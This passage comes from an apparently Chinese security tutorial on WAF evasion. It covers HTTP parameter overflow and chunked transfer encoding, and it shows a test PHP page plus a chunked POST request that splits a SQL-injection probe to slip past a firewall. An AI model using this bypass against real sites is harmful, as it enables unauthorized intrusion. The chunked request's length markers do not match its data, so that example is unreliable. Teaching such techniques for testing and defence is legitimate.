 在这个示例中，攻击者可以通过增加参数个数实现绕过WAF。理解了HTTP参数溢出问题之后，我们进入到对HTTP分块传输绕WAF的学习中。

### HTTP 分块传输

分块传输是一种传输编码，是把报文分割成若干个大小已知的“块”进行传输。

我们可以利用burpsuite，将请求报文中的`Transfer-Encoding`字段指定为`chunked`值，来声明采用分块传输。这样就可以把一个完整的攻击数据分割成若干份，WAF由于无法匹配到完整的攻击特征值，因此就可能会被绕过。

几乎所有可以识别`Transfer-Encoding`数据包的WAF，都没有处理分块数据包中长度标识处的注释。这就意味着，如果在分块数据包中加入注释的话，WAF识别不出这个数据包。

我们看个具体的例子。

```plain
<?php
header("Content-Type: text/html;charset=utf-8");
$id = $_REQUEST["id"];
if ($id){
    echo $id;
    }
?>
```

这段代码是我们测试用的网页代码，我们先用GET方式上传参数，将id设置为：

```plain
1 and 1=1
```

获取到的响应如下：

![图片](https://static001.geekbang.org/resource/image/3a/0f/3a2d0a04a13ef53bb9ea793a3e0d260f.png?wh=966x636)

根据响应我们可以发现这个payload被WAF拦截，这时候，我们利用分块传输来进行绕过：

```plain
POST /xxxxxx.php HTTP/1.1
......
Transfer-Encoding: Chunked

1;
i
d
=1
5
a
6
nd
2
1=1
0
```

获取到的响应为：

![图片](https://static001.geekbang.org/resource/image/48/57/483941b80ca618a00ae41b9ebc92f157.png?wh=1664x160)
